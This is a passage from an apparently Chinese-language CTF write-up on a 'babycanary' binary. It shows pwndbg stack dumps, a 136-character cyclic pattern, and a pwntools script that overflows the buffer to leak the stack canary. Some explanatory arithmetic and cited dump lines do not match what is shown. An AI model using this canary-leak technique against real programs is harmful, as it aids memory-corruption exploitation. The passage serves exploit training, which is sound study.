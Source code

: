 ```shell
... ↓
25:0128│          0x7fffffffded8 —▸ 0x7fffffffdf48 —▸ 0x7fffffffe2dd ◂— 'XDG_VTNR=7'
26:0130│          0x7fffffffdee0 —▸ 0x7ffff7ffe168 ◂— 0x0
27:0138│          0x7fffffffdee8 —▸ 0x7ffff7de77db (_dl_init+139) ◂— jmp    0x7ffff7de77b0
28:0140│          0x7fffffffdef0 ◂— 0x0
... ↓
2a:0150│          0x7fffffffdf00 —▸ 0x4005a0 ◂— xor    ebp, ebp
2b:0158│          0x7fffffffdf08 —▸ 0x7fffffffdf30 ◂— 0x1
2c:0160│          0x7fffffffdf10 ◂— 0x0
2d:0168│          0x7fffffffdf18 —▸ 0x4005c9 ◂— hlt    
2e:0170│          0x7fffffffdf20 —▸ 0x7fffffffdf28 ◂— 0x1c
2f:0178│          0x7fffffffdf28 ◂— 0x1c
30:0180│ r13      0x7fffffffdf30 ◂— 0x1
31:0188│          0x7fffffffdf38 —▸ 0x7fffffffe2a9 ◂— 
```

从`11:0088│          0x7fffffffde38 ◂— 0x8b5843fb32c04100`可以知道这就是**Canary**的值，那我们还需要增加字符串长度，正好溢出到canary的位置，则根据计算**hex(30-28=8)**,则需要生成**136**个字符

```shell
syc@ubuntu:~/Documents/challange$ python pattern.py create 136
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4A
```

```shell
pwndbg> stack 50
00:0000│ rax rsi rsp  0x7fffffffddb0 ◂— 0x6141316141306141 ('Aa0Aa1Aa')
01:0008│              0x7fffffffddb8 ◂— 0x4134614133614132 ('2Aa3Aa4A')
02:0010│              0x7fffffffddc0 ◂— 0x3761413661413561 ('a5Aa6Aa7')
03:0018│              0x7fffffffddc8 ◂— 0x6241396141386141 ('Aa8Aa9Ab')
04:0020│              0x7fffffffddd0 ◂— 0x4132624131624130 ('0Ab1Ab2A')
05:0028│              0x7fffffffddd8 ◂— 0x3562413462413362 ('b3Ab4Ab5')
06:0030│              0x7fffffffdde0 ◂— 0x6241376241366241 ('Ab6Ab7Ab')
07:0038│              0x7fffffffdde8 ◂— 0x4130634139624138 ('8Ab9Ac0A')
08:0040│              0x7fffffffddf0 ◂— 0x3363413263413163 ('c1Ac2Ac3')
09:0048│              0x7fffffffddf8 ◂— 0x6341356341346341 ('Ac4Ac5Ac')
0a:0050│              0x7fffffffde00 ◂— 0x4138634137634136 ('6Ac7Ac8A')
0b:0058│              0x7fffffffde08 ◂— 0x3164413064413963 ('c9Ad0Ad1')
0c:0060│              0x7fffffffde10 ◂— 0x6441336441326441 ('Ad2Ad3Ad')
0d:0068│              0x7fffffffde18 ◂— 0x4136644135644134 ('4Ad5Ad6A')
0e:0070│              0x7fffffffde20 ◂— 0x3964413864413764 ('d7Ad8Ad9')
0f:0078│              0x7fffffffde28 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
10:0080│              0x7fffffffde30 ◂— 0x4134654133654132 ('2Ae3Ae4A')
11:0088│              0x7fffffffde38 ◂— 0xfb83dc38787b3d0a
12:0090│ rbp          0x7fffffffde40 —▸ 0x7fffffffde50 —▸ 0x400790 ◂— push   r15
```

可以看到Canary的值就是**0xfb83dc38787b3d0a**

这样子我们可以写一个脚本来暴露Canary的值了

```python
#coding:utf-8
from pwn import *
r = process("./babycanary")
gdb.attach(r,"b *0x400736")
payload = "a"*136
r.sendlineafter("tell me your name:\n",payload)
r.recvuntil('OK,'+ "a"*136)
canary = u64(r.recv(8))
print "canary :" + hex(canary)
```
